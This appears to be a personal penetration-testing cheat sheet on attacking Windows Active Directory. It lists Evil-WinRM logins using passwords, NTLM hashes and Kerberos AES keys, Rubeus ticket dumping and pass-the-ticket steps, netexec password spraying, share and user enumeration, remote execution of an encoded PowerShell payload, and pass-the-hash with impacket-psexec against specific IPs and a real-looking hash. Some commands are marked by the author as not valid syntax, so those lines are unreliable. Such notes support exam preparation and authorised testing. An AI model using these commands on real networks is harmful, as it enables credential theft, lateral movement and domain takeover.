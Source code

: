 	- Dump TGTs and reuse with AES

Evil-WinRM
- `evil-winrm -i <TARGET-IP> -u "secura\username" -p '****'`
- `evil-winrm -i <TARGET_IP> -u <USERNAME> -H <NTLM_HASH>`
- `evil-winrm -i <target-ip> -u <user> --auth Kerberos -k --aesKey <AES256_key> -r <domain> --dc-ip <dc-ip>` (--auth and --dc-ip, THIS IS NOT A THING)
	- AES256
- `evil-winrm -i <target-ip> -u <user> --auth Kerberos -k -r <domain> --dc-ip <dc-ip>` (THIS IS NOT A THING)
	- Pass the (TGT) ticket. Uses the ticket in `KRB5CCNAME` env variable.
	1) Use `Rubeus.exe dump` to see all tickets in memory
		- Look for a TGT (`krbtgt`) and export it with `Rubeus.exe dump /luid:<LUID> /ticket:base64 > ticket.kirbi`
	2) Convert `.kirbi` to a ccache file (if you want to move the ticket to Linux)
		1) `python3 kirbi2ccache.py ticket.kirbi ticket.ccache`
	3) `export KRB5CCNAME=$(pwd)/ticket.ccache`
	4) Verify with `klist`

netexec / crackmapexec
- `--rid-brute`: Enumerate users via RID brute forcing (helpful with null sessions).

```bash
# Credential spraying / password testing
netexec smb 192.168.50.75-80 -u users.txt -p 'Password123!' -d corp.com --continue-on-success
# Enumerating Shares
netexec smb 192.168.1.100 -u user -p pass -d corp.com --shares
# Enumerating Users (requires credentials)
netexec smb 192.168.1.100 -u user -p pass -d corp.com --users
# Enumerating Groups
netexec smb 192.168.1.100 -u user -p pass -d corp.com --groups
# Enumerate Null Sessions
netexec smb 192.168.1.0/24 -u '' -p '' -d corp.com --shares
# Enumerating Sessions
netexec smb 192.168.1.100 -u user -p pass -d corp.com --sessions
# Executing Commands Remotely
netexec smb 192.168.1.100 -u Administrator -p pass -x 'powershell -enc <Base64EncodedPayload>'
# Pass-the-hash
netexec smb 192.168.1.100 -u Administrator -H <NTLM hash>
```

- `impacket-psexec -hashes ":e762fa8675acd7d26ab86eb2581233d2" exam.com/densvc@192.168.154.170`

Try without DOMAIN NAME ALSO
- `impacket-psexec -hashes ":e762fa8675acd7d26ab86eb2581233d2" densvc@192.168.154.170`

---
### BloodHound
1) `sudo neo4j start`
2) `bloodhound`

- `Find all Domain Admins`
- `Find Shortest Paths to Domain Admins`
	- `Shortest Paths to Domain Admins from Owned Principals`
- `List all Kerberoastable Accounts`
	- `Shortest Paths to Domain Admins from Kerberoastable Users`
- `List all AS-REP Roastable Accounts`
- Look for noteworthy ACLs
- `Unrolled Group Membership` for interesting groups
